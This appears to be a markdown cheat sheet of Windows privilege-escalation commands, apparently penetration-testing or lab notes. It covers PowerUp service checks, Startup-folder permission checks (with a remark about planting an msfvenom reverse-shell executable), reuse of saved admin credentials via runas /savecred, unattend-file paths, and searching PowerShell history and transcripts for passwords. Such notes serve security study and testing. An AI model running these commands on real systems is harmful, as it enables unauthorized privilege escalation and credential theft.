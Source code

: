 ```powershell
Get-ServiceUnquoted -Verbose
```
## Get Services where the current user can write to its binary path or change arguments in the binary
```powershell
#Using PowerUp.ps1
Get-ModifiableServiceFile -Verbose
```
## Get services whose configuration current user can modify
```powershell
#Using PowerUp.ps1
Get-ModifiableService -Verbose
```
## Startup Apps
```powershell
#Have to do manually and looking for a 'F' full write read access to inject an msfvenome .exe to get a RevShell.
#icalcs is tool used to check permissions or delete or modify  
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```
## Finding Saved Creds
```powershell
cmdkey /list
#If Admin creds are saved then run
runas.exe /savecred /user:administrator cmd
```
## Deleted Files
- Search Recycle bin for files that contain or may contain passwords such like **unattend.xml**
## Unattended files
```txt
C:\Windows\sysprep\sysprep.xml
C:\Windows\sysprep\sysprep.inf
C:\Windows\sysprep.inf
C:\Windows\Panther\Unattended.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\System32\Sysprep\unattend.xml
C:\Windows\System32\Sysprep\unattended.xml
C:\unattend.txt
C:\unattend.inf
dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>null
```
 ## Powershell history
** Default Location**
```powershell
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
#For example
C:\Users\zeyad\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
## Powershell Trascript
- This service logges the PowerShell session from commands and output  of the commands.
- Default logfile place is C:\Users\%USER%\Documents
```powershell
#Example 
cat C:\Users\zeyad\DocumentsFILE.txt | select-string "pass","cred"
```